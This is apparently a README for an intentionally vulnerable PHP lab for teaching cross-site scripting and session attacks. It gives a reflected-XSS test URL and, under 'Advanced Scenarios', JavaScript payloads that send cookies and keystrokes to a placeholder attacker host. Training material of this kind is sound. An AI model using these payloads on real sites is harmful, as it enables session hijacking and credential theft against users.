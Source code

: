 # XSS MasterLab: Cross-Site Scripting Vulnerability Simulator  

![XSS MasterLab Banner](https://via.placeholder.com/1200x400?text=ss.png)  


## Overview  
**XSS MasterLab** is a comprehensive educational platform designed for cybersecurity professionals, developers, and students to safely study, demonstrate, and understand Cross-Site Scripting (XSS) vulnerabilities in a controlled environment. This intentionally vulnerable web application simulates real-world scenarios to teach offensive security techniques and defensive countermeasures.

## Key Features  
- 🎯 **Complete XSS Vulnerability Suite**: Reflected, Stored, and DOM-based XSS
- 🔓 **Session Attacks**: Session fixation, session hijacking, and ID brute-forcing
- 🕵️ **MITB Simulation**: Realistic Man-in-the-Browser attack demonstration
- 🛡️ **Security Labs**: Hands-on vulnerability exercises with clear learning objectives
- 📊 **Visual Analytics**: Attack visualization and impact demonstration
- 🧩 **Modular Design**: Extensible architecture for adding new vulnerabilities
- 🎨 **Professional UI**: Clean, responsive interface with theme customization

## Vulnerability Matrix  
| Attack Type          | File         | Vulnerability Class       |
|----------------------|--------------|---------------------------|
| Reflected XSS        | index.php    | Non-sanitized GET input   |
| Stored XSS           | comment.php  | Unsanitized user content  |
| DOM-Based XSS        | index.php    | Unsafe document.write()   |
| Session Fixation     | login.php    | Predictable session IDs   |
| Session Bruteforce   | brute.php    | Short session identifiers |
| MITB Attack          | mitb.php     | Credential theft via XSS  |
| Session Hijacking    | profile.php  | Missing HttpOnly flag     |

## Setup Instructions  
1. **Requirements**:  
   - XAMPP/WAMP server (PHP 7.4+)
   - Modern web browser

2. **Installation**:  
   ```bash
   # Clone repository
   git clone https://github.com/your-username/xss-masterlab.git
   
   # Move to htdocs
   mv xss-masterlab /path/to/xampp/htdocs/
   
   # Create storage directory
   mkdir store
   chmod 777 store
   ```

3. **Access Application**:  
   `http://localhost/xss-masterlab/index.php`

## Usage Guide  
### Basic Attacks  
1. **Reflected XSS**:  
   `http://localhost/xss-masterlab/index.php?name=<script>alert(1)</script>`

2. **Stored XSS**:  
   - Submit malicious script via comment.php
   - View payload execution in view.php

3. **Session Bruteforce**:  
   - Visit brute.php to get session ID
   - Bruteforce with: `brute.php?sid=GUESS`

### Advanced Scenarios  
```javascript
// Session Hijacking Payload
fetch('https://attacker.com/steal?cookie=' + document.cookie)

// Keylogger Implementation
document.addEventListener('keypress', (e) => {
  fetch('https://attacker.com/log?key=' + e.key)
})
```

### MITB Attack  
1. Navigate to mitb.php
2. Enter credentials in fake login form
3. Observe credential theft simulation

## Security Features  
While demonstrating vulnerabilities, XSS MasterLab includes safety measures:
- Isolated environment with no external network access
- Automatic session expiration
- IP-based request logging
- Content Security Policy headers (disabled for training)
- Clear security warnings throughout UI

## Ethical Use Disclaimer  
> **Warning**: This application contains intentional security vulnerabilities. Never deploy on public servers or networks accessible to untrusted parties. Use exclusively for:
> - Security education
> - Penetration testing training
> - Secure coding demonstrations
> - Security awareness workshops

Unauthorized use for attacking systems without explicit permission is illegal.

## Contributing  
We welcome contributions! Please follow these steps:
1. Fork the repository
2. Create a new branch (`git checkout -b feature/improvement`)
3. Commit changes (`git commit -am 'Add new feature'`)
4. Push to branch (`git push origin feature/improvement`)
5. Create new Pull Request

## License  
This project is licensed under the **Educational Community License v2.0**  
Copyright © 2025 Netrinix Solutions. All rights reserved.

---
**Developed for Educational Purposes by Netrinix Security Labs**  
[Report Issues](mailto:security@netrinix.com) | [Request Features](mailto:features@netrinix.com)
